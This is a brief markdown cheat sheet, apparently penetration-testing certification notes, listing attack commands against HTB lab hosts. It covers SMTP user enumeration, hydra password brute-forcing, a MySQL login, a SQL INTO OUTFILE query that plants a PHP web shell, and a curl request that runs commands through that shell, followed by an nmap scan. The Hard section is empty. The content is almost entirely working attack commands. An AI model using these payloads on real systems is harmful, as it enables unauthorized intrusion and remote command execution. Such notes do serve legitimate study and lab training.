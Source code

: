 https://github.com/missteek/cpts-quick-references/blob/main/assessments/Password%20Attacks%20Lab%20-%20Hard.md


#### Attacking Common Services - Easy:
```
UserEnum:       smtp-user-enum -M RCPT -U users.txt -D inlanefreight.htb -t $ip
PW Bruteforce:  hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt $ip smtp
Login MySQL:    mysql -h $ip -u <user> -p <password>
SQL RCE:        SELECT "<?php if(isset($_GET['cmd'])){ echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; } ?>" INTO OUTFILE 'C:/xampp/htdocs/cmd.php';
RCE:            curl http://$ip/cmd.php?cmd=whoami
```
#### Attacking Common Services - Medium:
```
nmap scan:      nmap $ip -p- --open -o nmap.txt | grep '/tcp' | cut -d'/' -f1 | paste -sd, -





```

#### Attacking Common Services - Hard:
